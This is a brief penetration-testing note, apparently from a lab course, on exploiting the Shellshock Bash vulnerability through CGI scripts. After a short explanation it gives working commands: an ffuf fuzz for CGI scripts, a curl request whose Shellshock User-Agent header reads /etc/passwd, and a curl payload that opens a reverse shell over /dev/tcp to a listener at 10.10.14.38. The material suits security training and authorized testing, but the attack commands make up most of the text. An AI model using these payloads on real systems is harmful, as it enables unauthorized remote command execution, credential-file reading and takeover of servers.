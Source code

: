 # CGI Attacks
Perhaps the most well-known CGI attack is exploiting the Shellshock (aka, "Bash bug") vulnerability via CGI. The Shellshock vulnerability (CVE-2014-6271) was discovered in 2014, is relatively simple to exploit, and can still be found in the wild (during penetration tests) from time to time. It is a security flaw in the Bash shell (GNU Bash up until version 4.3) that can be used to execute unintentional commands using environment variables.

```bash
$ ffuf -u http://10.129.205.27/cgi-bin/FUZZ.cgi -w /usr/share/wordlists/dirb/small.txt

# Cat /etc/passwd 
$ curl -H 'User-Agent: () { :; }; echo ; echo ; /bin/cat /etc/passwd' bash -s :'' http://10.129.204.231/cgi-bin/access.cgi

# Reverse Shell
$ curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.14.38/7777 0>&1' http://10.129.204.231/cgi-bin/access.cgi
```

